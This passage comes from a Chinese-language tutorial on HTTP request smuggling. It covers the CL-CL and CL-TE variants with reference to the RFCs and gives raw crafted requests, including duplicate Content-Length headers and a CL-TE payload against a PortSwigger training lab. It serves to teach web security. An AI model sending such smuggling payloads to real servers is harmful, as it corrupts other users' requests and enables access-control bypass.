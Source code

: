 前端服务器收到该请求，通过读取 `Content-Length`，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对 `Content-Length` 进行处理，由于 `Pipeline` 的存在，它就认为这是收到了两个请求，分别是

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```http<br># 第一个<br>GET / HTTP/1.1\r\n<br>Host: example.com\r\n<br><br># 第二个<br>GET /secret HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

### [](#22-cl-cl)2.2 CL-CL

在 `RFC7230` 的第 `3.3.3` 节中的第四条中，规定当服务器收到的请求中包含两个 `Content-Length`，而且两者的值不同时，需要返回 400 错误。

但是总有服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回 400 错误，但是中间代理服务器按照第一个 `Content-Length` 的值对请求进行处理，而后端源站服务器按照第二个 `Content-Length` 的值进行处理。

此时恶意攻击者可以构造一个特殊的请求：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: example.com\r\n<br>Content-Length: 8\r\n<br>Content-Length: 7\r\n<br><br>12345\r\n<br>a<br>``` |

中间代理服务器获取到的数据包的长度为 8，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为 7。当读取完前 7 个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的缓冲区去还剩余一个字母 `a`，对于后端服务器来说，这个 `a` 是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其它的正常用户对服务器进行了请求，假设请求如图所示：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```http<br>GET /index.html HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

从前面我们也知道了，代理服务器与源站服务器之间一般会重用 TCP 连接。

这时候正常用户的请求就拼接到了字母 `a` 的后面，当后端服务器接收完毕后，它实际处理的请求其实是：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```http<br>aGET /index.html HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

这时候用户就会收到一个类似于 `aGET request method not found` 的报错。这样就实现了一次 HTTP 走私攻击，而且还对正常用户的行为造成了影响，而且后续可以扩展成类似于 CSRF 的攻击方式。

但是两个 `Content-Length` 这种请求包还是太过于理想化了，一般的服务器都不会接受这种存在两个请求头的请求包。但是在 `RFC2616` 的第 4.4 节中，规定：`如果收到同时存在 Content-Length 和 Transfer-Encoding 这两个请求头的请求包时，在处理的时候必须忽略 Content-Length`，这其实也就意味着请求包中同时包含这两个请求头并不算违规，服务器也不需要返回 `400` 错误。服务器在这里的实现更容易出问题。

### [](#23-cl-te)2.3 CL-TE

所谓`CL-TE`，就是当收到存在两个请求头的请求包时，前端代理服务器只处理 `Content-Length` 这一请求头，而后端服务器会遵守 `RFC2616` 的规定，忽略掉 `Content-Length`，处理 `Transfer-Encoding` 这一请求头。

chunk 传输数据格式如下，其中 size 的值由 16 进制表示。

Lab 地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3\r\n<br>Connection: keep-alive\r\n<br>Content-Length: 6\r\n<br>Transfer-Encoding: chunked\r\n<br>\r\n<br>0\r\n<br>\r\n<br>G<br>``` |
